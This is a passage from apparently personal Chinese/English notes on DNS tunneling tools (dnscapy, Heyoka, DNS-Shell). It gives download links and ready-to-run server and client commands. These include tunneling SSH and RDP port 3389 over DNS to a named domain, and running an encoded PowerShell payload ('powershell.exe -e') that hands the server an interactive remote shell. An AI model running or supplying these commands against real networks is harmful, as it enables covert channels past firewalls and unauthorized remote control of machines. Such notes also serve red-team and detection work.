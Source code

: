 Download:
https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/dnscapy/dnscapy-0-99b.zip

Server:
sudo python dnscapy_server.py [DELEGATED_ZONE_NAME] [EXTERNAL_IP_ADDR]

Client:
ssh -o ProxyCommand="sudo python dnscapy_client.py [DELEGATED_ZONE_NAME] [IP_ADDR_OF_CLIENT_DNS]" yourlogin@localhost



# 6. Heyoka

http://heyoka.sourceforge.net/

https://www.youtube.com/watch?v=Qono_XybsbA

### 服务端
heyoka.exe -m -d dnstunw.cih.so -l -p 8080

### 客户端
heyoka.exe -s -d dnstunw.cih.so -p 3389

将slave机器的3389映射到master机器的8080上？还有待测试

# 7. DnsShell  -  (ForWindows)

<https://github.com/sensepost/DNS-Shell>

## 服务端

### 基于DNS中继的方式
```
python DNS-shell.py -l -r dnstun.cih.so
```

### 基于连接的方式
```
python DNS-shell.py -l -d [Server IP]
```

## 客户端
服务端执行脚本后会得到一段payload，在客户端执行它。服务端即可获得一个交互式shell。
```
powershell.exe -e [payload]
```

# 8. ReverseDnsShell
